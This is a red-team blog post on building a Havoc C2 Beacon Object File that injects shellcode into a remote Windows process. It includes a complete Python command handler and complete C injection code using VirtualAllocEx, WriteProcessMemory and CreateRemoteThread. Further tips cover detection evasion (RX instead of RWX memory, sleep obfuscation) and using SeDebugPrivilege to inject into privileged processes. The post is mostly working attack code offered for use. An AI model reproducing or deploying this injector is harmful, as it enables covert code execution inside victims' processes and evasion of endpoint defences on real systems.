 [back to blog](../blog.md)

## Process Injection
This blog will outline a simple process injection in a remote process. The windows API that will be used are the following:

| Windows API | Usage 
| -------- | -------- 
| [Openprocess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) | Will be used to open the handle of target process. 
| [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) | Will be used for allocating memory in the target process, allocated memory size will depend on the shellcode size. 
| [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) | Writes the shellcode in the allocated memory address.
| [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) | Will be used for changing the memory permission to read,execute (RX) instead of Read, Write, Execute (RWX).
| [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) | Will be used for creating a thread on the target process inorder to execute our shellcode.
| [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle) | Close the open handle.

When creating a BOF, I **highly recommend starting with C code first**. Run it to verify that it works, **and then convert it into a BOF** once confirmed, that it's working convert it to BOF. This will save up some time debugging some issues on the code.

## Aggressor script

This time we will start first with an aggressor script. Edit the script previously used and add the new python function.

```py
<SNIPPED>
def run_procinj(demon_id, *args):
    
    task_id: str = None
    demon: Demon = None
    packer: Packer = Packer() 
    # Get the beacon instance
    demon = Demon(demon_id)
    binary: bytes = None

    if len(args) < 2:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Not enough arguments")
        return False

    # Get shellcode path
    path = args[0]

    # Check if the shellcode path exists
    if not exists(path):
        demon.ConsoleWrite(demon.CONSOLE_ERROR, f"Shellcode not found: {path}")
        return False

    # Read the shellcode from the specified path into 'binary' variable
    with open(path, 'rb') as handle:
        binary = handle.read()

    if not binary:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Specified shellcode is empty")
        return False

    # Add the arguments to the packer
    packer.addbytes(binary)
    packer.addint(int(args[1]))

    task_id = demon.ConsoleWrite(demon.CONSOLE_TASK, f"Tasked the demon to execute process injection on the process ID: {args[1]}")
   
    demon.InlineExecute(task_id, "go", "bin/test2.o", packer.getbuffer(), False)
    #testbof procinj /home/kali/mdev/havocbof/demon.x64.bin 1992
    return task_id

<SNIPPED>
RegisterCommand(run_procinj, "testbof", "procinj", "Performs a process injection on the target process", 0, "usage: ", "4512")
```

## BOF

When writing BOF, you often use **DECLSPEC_IMPORT** in function declarations like **DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE)** so the linker knows the function is imported from Windows DLL like (e.g., kernel32.dll, advapi32.dll). The DECLSPEC_IMPORT and the $ prefixed symbol names to ensure Beacon can resolve them at runtime. **Module$Function**

Why it matters for BOFs:

- BOFs are compiled as object files (.o) without the standard runtime.
- You don’t link against Windows libraries directly.


More information at [DFR](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm)


```c
#include <windows.h>
#include "beacon.h"

//kernel32 dll
DECLSPEC_IMPORT WINBASEAPI LPVOID WINAPI KERNEL32$VirtualAllocEx(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$WriteProcessMemory(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$CreateRemoteThread(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$OpenProcess(DWORD, BOOL, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE);
DECLSPEC_IMPORT WINBASEAPI DWORD WINAPI KERNEL32$GetLastError(void);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$VirtualProtectEx(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD);


void go(char* args, int argc){
    
    datap parser;
    DWORD procid;
    DWORD   dwOldProtection = NULL;
    PSTR  shellcode = { 0 };
    DWORD shellcodeLength    = { 0 };
    SIZE_T  sNumberOfBytesWritten = NULL;
    HANDLE pHandle;
    HANDLE rthreadHandle;
    PVOID bufferMemoryaddr;
    DWORD tid = 0;

    //Beacon data parser
    BeaconDataParse(&parser, args, argc);
    

    shellcode = BeaconDataExtract(&parser, &shellcodeLength);
    procid = BeaconDataInt(&parser);

    //prints hello world
    BeaconPrintf(CALLBACK_OUTPUT, "[!] Target PID: %d", procid);

    pHandle = KERNEL32$OpenProcess(PROCESS_ALL_ACCESS, FALSE, procid);
    if (!pHandle){
        BeaconPrintf(CALLBACK_OUTPUT, "[x] Failed to open process error code: %d\n", KERNEL32$GetLastError());
        return 1; //failure
    }

    bufferMemoryaddr = KERNEL32$VirtualAllocEx(pHandle, NULL, shellcodeLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!bufferMemoryaddr) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to allocate memory: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    BeaconPrintf(CALLBACK_OUTPUT,"[!] memory allocated at: 0x%p\n", bufferMemoryaddr);

    if (!KERNEL32$WriteProcessMemory(pHandle, bufferMemoryaddr, shellcode, shellcodeLength, &sNumberOfBytesWritten)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] WriteProcessMemory Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }
    if (!KERNEL32$VirtualProtectEx(pHandle, bufferMemoryaddr, shellcodeLength, PAGE_EXECUTE_READ, &dwOldProtection)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] VirtualProtectEx Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }

    rthreadHandle = KERNEL32$CreateRemoteThread(pHandle, NULL, 0, (LPTHREAD_START_ROUTINE)bufferMemoryaddr, NULL, 0, &tid);
    if(!rthreadHandle){
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to create remote thread: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    BeaconPrintf(CALLBACK_OUTPUT, "[!] remote thread id : %lu \n", tid);
    KERNEL32$CloseHandle(pHandle);

}
```

```bash
x86_64-w64-mingw32-gcc -c src/procinj.c -w -o bin/test2.o 
```
Get a shell, then execute the BOF. As shown from the screenshot below it shows the memory address that has been allocated on the target process and it's remote thread ID for debugging purpose.
![alt text](img/image4.png)
![alt text](img/image-1.png)


Just a little information on how to check what was written on the memory address you can use **x64dbg, attach to the target process then press ctrl + g, paste the memory address**. In this screenshot I change my payload to msfvenom calc bin so it can be easier to read. As shown we can see the signatured `FC 48 83` and then the calc.exe
![alt text](img/image-2.png)

My havoc payload that I used, performs a sleep obfuscation technique with WaitForSingleObjextEx. TL;DR: Sleep obfuscation **changes the memory protection from RW to RX, and then back to RW** [sleep obfuscation](https://dtsec.us/2023-04-24-Sleep/)

To check what happens on sleep, use process hacker, check the target process and then go to the threads, locate the thread id. The screenshot below shows when it's on sleep. 
![alt text](img/image22.png)

The screenshot below shows when it's not on sleep. As observe it's using winHTTP library for the communication.
![alt text](img/image5.png)

If you are trying to perform a process injection on a process owned by other user or a process owned by NT authority and you dont have enough privilege. This wont be possible because of access control restrictions. But if you enable SeDebugPrivilege you will be able to injec.
![alt text](img/image-3.png)


I changed the VirtualAllocEx with page execute read write and comment out the VirtualProtectEx to see the difference and also without the sleep obfuscation from have. I used the metasploit calc here for POC.

As shown from the screenshot below the RWX stands out and most endpoint security solution flags this and gets highly detected, so the better approach is to change it to RX. If you change it to Read it wont be executed. Clicking on the RWX this shows what was written on that memory and it shows the metasploit calc.
![alt text](img/image6.png)

References
- https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm
- https://dtsec.us/2023-04-24-Sleep

[back to blog](../blog.md)